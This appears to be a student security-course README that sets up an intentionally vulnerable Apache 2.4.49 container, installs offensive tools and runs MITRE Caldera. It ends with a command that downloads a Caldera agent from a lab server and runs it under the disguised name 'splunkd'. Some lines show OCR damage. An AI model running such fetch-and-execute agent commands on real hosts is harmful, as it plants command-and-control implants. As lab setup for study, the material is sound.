 # ICS344-Project-Commands-and-codes

How we did the setup for everything in the project

 # 1-Docker:
the reason we wanted to install docker is because we needed to downgrade our apache service to something with known vulnerabilities we used the following commands to install it on the vm.

-sudo apt-get install -y docker.io

-sudo systemctl start docker & sudo systemctl enable docker

-docker –version (to make sure it is correctly installed)
 # 2-Apache 2.4.49:
 after installing docker we need to make a dockerfile with all the files and dependencies will go through the steps we did to set it up correctly
-nano DockerFile
-write in the dockerfile the following (FROM debian:latest
RUN apt-get update && \
    apt-get install -y wget build-essential libpcre3 libpcre3-dev libssl-dev libexpat1-dev && \
    wget https://archive.apache.org/dist/httpd/httpd-2.4.49.tar.gz && \
    wget https://archive.apache.org/dist/apr/apr-1.7.0.tar.gz && \
    wget https://archive.apache.org/dist/apr/apr-util-1.6.1.tar.gz && \
    tar -xzf httpd-2.4.49.tar.gz && \
    tar -xzf apr-1.7.0.tar.gz && \
    tar -xzf apr-util-1.6.1.tar.gz && \
    mv apr-1.7.0 httpd-2.4.49/srclib/apr && \
    mv apr-util-1.6.1 httpd-2.4.49/srclib/apr-util && \
    cd httpd-2.4.49 && \
    ./configure --enable-so --enable-ssl --with-mpm=event && \
    make && \
    make install

EXPOSE 80
CMD ["/usr/local/apache2/bin/httpd", "-D", "FOREGROUND"])
- after saving the file we need to build the image the containers will be using with the following command 'sudo docker build -t apache-2.4.49'
- -then use 'sudo docker run -d -p 8080:80 apache-2.4.49' to make the container with apache running on port 8080
# 3-Attack Tools:
we needed to install some tools that we might use for attacks and we used the following command

-sudo apt install nmap metasploit-framework hydra gobuster nikto -y
# 4-Caldera:
Caldera is a necessary part to complete the project so we followed these commands to install it correctly and making sure it runs without errors.

-git clone https://github.com/mitre/caldera.git --recursive
-pip3 install -r requirements.txt
-python3 server.py --insecure –build (use --build if it is running for the first time, after the first time you can remove it and it will run okay).
- to be able to run operations in caldera we need an agent the following code we used to make an agent (server 'http: //192. 168.112.129:8888' ;
curl-s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download › splunkd;
chmod +x splunkd;
./splunkd -server $server -group red -v)


